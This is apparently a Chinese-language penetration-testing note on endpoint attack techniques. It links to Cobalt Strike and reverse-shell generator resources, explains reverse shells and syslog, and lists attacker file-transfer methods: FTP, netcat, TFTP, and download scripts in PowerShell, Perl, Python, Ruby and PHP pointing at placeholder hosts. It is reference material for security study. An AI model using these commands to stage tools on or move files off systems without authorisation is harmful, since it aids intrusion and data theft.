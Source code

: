 # 端点安全

- [端点安全](#端点安全)
  - [C2 工具](#c2-工具)
  - [反弹Shell](#反弹shell)
  - [Syslog](#syslog)
  - [下载文件](#下载文件)
    - [系统自带软件/工具下载](#系统自带软件工具下载)
      - [FTP](#ftp)
      - [Netcat](#netcat)
      - [TFTP](#tftp)
    - [编程语言下载脚本](#编程语言下载脚本)
      - [Powershell](#powershell)
      - [Perl](#perl)
      - [Python](#python)
      - [Ruby](#ruby)
      - [PHP](#php)

---

## C2 工具

[Cobalt Strike 模块详解&功能详解 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/261298349)

---

## 反弹Shell

> [Online - Reverse Shell Generator (revshells.com)](https://www.revshells.com/)
>
> [反弹Shell，看这一篇就够了 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/9488?time__1311=n4%2BxuDgD9AdWqhDBqDwmDUok0Kwqq2DiKx&alichlgref=https%3A%2F%2Fwww.google.com%2F)

反弹Shell就是攻击机监听在某个TCP/UDP端口为服务端, 目标机主动发起请求到攻击机监听的端口, 并将其命令行的输入输出转到攻击机

可以在 [Online - Reverse Shell Generator (revshells.com)](https://www.revshells.com/) 获取到各种方式的反弹 Shell 写法

---

## Syslog

> [Syslog - 维基百科，自由的百科全书 (wikipedia.org)](https://zh.wikipedia.org/zh-hans/Syslog)
>
> [关于 syslog 你要知道的一切 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/62793386)

Syslog(System Logging Protocol)是一种用于从各种网络设备以特定格式发送和接收通知消息的标准协议。

这些消息包括时间戳、事件消息、严重性、主机IP地址、诊断等。Syslog可以用于记录设备的日志，监控系统的状态，报告故障或警告，分析网络性能等。

Syslog协议通常用于实现系统监控、故障排除、安全审计以及日志记录和分析。

---

## 下载文件

### 系统自带软件/工具下载

#### FTP

一般情况下攻击者使用 FTP 上传文件需要很多交互的步骤，下面这个 bash 脚本，考虑到了交互的情况，可以直接执行并不会产生交互动作。

```bash
ftp 127.0.0.1
username
password
get file
exit
```

当然根据实际情况也可以进入交互终端：

```bash
ftp 192.168.3.2
输入用户名和密码后
lcd E:\file # 进入E盘下的file目录
cd www # 进入服务器上的www目录
get access.log # 将服务器上的access.log下载到E:\file
```

---

#### Netcat

攻击者的电脑上输入:

```bash
cat file | nc -l 1234
```

> 这个命令会将 file 的内容输出到本地的 1234 端口中，然后不论谁连接此端口，file 的内容将会发送到连接过来的 IP。

目标电脑上的命令:

```bash
nc host_ip 1234 > file
```

这条命令将连接攻击者的电脑, 接受传过来的文件内容并保存到 file 路径

---

#### TFTP

在 Windows Vista 以及以后的版本中默认有 FTP，可以使用以下命令运行：

上传：

```powershell
tftp -i IP地址 PUT C:\%homepath%\file 远程存放位置
```

下载：

```powershell
tftp -i IP地址 GET C:\%homepath%\file 本地存放位置
```


---

### 编程语言下载脚本

#### Powershell

PowerShell 是一种 winodws 原生的脚本语言，对于熟练使用它的人来说，可以实现很多复杂的功能。

下面这两条指令实现了从 Internet 网络下载一个文件。

```Powershell
$p = New-Object System.Net.WebClient
$p.DownloadFile("http://domain/file" "C:\%homepath%\file")
```

> 关于 Windows 上 Powershell 下载与执行在[Windows安全-下载与执行文件-Net.WebClient](Windows/index.md#Net.WebClient) 处有更多

---

#### Perl

编写 Perl 脚本实现文件下载:

```perl
#!perl
#!/usr/bin/perl
use LWP::Simple;
getstore("http://domain/file", "file");
```

执行脚本文件:

```bash
perl test.pl
```

---

#### Python

```python
#!python
#!/usr/bin/python
import urllib2
u = urllib2.urlopen('http://domain/file')
localFile = open('local_file', 'w')
localFile.write(u.read())
localFile.close()
```

---

#### Ruby

Ruby 是一个面对对象的语言，Metasploit 框架就是用它来实现的，当然他也可以实现像下载文件这样的小任务。

```ruby
#!ruby
#!/usr/bin/ruby
require 'net/http'
Net::HTTP.start("www.domain.com") { |http|
r = http.get("/file")
open("save_location", "wb") { |file|
file.write(r.body)
}
}
```

执行脚本:

```bash
ruby test.rb
```

---

#### PHP

PHP 作为一种服务端脚本，也可以实现下载文件这种功能。

```php
#!/usr/bin/php
<?php
        $data = @file("http://example.com/file");
        $lf = "local_file";
        $fh = fopen($lf, 'w');
        fwrite($fh, $data[0]);
        fclose($fh);
?>
```

执行脚本文件:

```bash
php test.php
```

---







